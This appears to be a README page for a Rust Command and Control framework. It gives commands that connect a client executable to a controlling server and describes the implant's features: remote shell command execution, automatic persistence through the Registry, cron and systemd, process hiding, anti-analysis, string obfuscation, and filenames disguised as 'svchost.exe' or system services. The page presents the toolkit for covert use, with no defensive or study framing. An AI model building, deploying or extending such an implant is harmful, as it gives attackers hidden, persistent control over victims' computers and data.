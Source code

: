 ```batch
# Basic connection
c2_client.exe --server 192.168.1.100

# Custom port
c2_client.exe --server 192.168.1.100 --port 8080

# Debug mode (visible, no persistence)
c2_client.exe --server 192.168.1.100 --no-stealth --no-persistence

# Custom timing
c2_client.exe --server 192.168.1.100 --reconnect-delay 60 --heartbeat-interval 120
```

## 🔧 Architecture Overview

This is a complete Command and Control (C2) framework written in Rust with advanced security features:

### 🖥️ **Server Component**
- **Multi-threaded TCP server** using Tokio async runtime
- **RSA-2048 key generation** for secure handshakes
- **AES-256-GCM encryption** for all client communications
- **Interactive admin interface** for managing clients and issuing commands
- **Client session management** with heartbeat monitoring
- **Command queue system** with result storage

### 📱 **Client Component**
- **Cross-platform compatibility** (Windows, Linux, macOS)
- **Automatic persistence** setup (Registry, Cron, Systemd)
- **Stealth mode** with process hiding/daemonization
- **Automatic reconnection** with exponential backoff
- **Shell command execution** with output capture
- **Built-in anti-analysis** features

## 🔒 Security Features

### **Encryption Protocol**
1. **RSA Key Exchange**: Client receives server's RSA public key
2. **AES Key Generation**: Client generates random AES-256 session key
3. **RSA Encryption**: Session key encrypted with server's public key
4. **AES-GCM Communication**: All messages encrypted with session key
5. **Message Authentication**: GCM mode provides authenticity

### **Anti-Detection Features**
- String obfuscation to avoid static analysis
- Symbol stripping in release builds
- Multiple filename disguises (svchost.exe, systemd-service, etc.)
- Stealth mode with process hiding
- Randomized reconnection delays
- Encrypted network traffic
